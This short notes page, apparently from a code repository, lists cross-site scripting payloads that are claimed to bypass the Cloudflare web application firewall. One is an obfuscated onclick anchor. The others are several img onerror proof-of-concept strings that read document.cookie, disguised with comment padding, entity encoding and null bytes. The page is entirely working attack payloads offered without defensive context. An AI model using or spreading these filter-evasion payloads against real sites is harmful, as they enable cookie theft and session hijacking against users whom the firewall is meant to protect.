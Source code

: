 # NOTAS

XSS bypass Cloudflare WAF 🧱🔥😈
Payload:
```
<a href="#" onclick="var w = window.open/**/(/**/); w.document.write/**/('Hello, world!'/**/); w.document.close/**/(/**/); w.print/**/(/**/); alert/**/('B1P4$$'/**/);">Click me</a>
```

XSS Bypass Waf Cloudflare ;) Poc 
```txt
"/***/&gt;/***/<img onerror="alert(document.cookie)/***/" src="P"/> "/**/>/**/<img src=P onerror=alert&#0000000040document.cookie)/**/>
"//>//"&gt;00%00%00<img onerror="alert(document.cookie)" src="P"/>00%00
```
```txt
"//>//<img onerror="alert(document.cookie)/***/" src="P"/>
<img src=P onerror=alert&#0000000040document.cookie)/**/> "
>00%00%00<img onerror="alert(document.cookie)" src="P"/>00%00
```
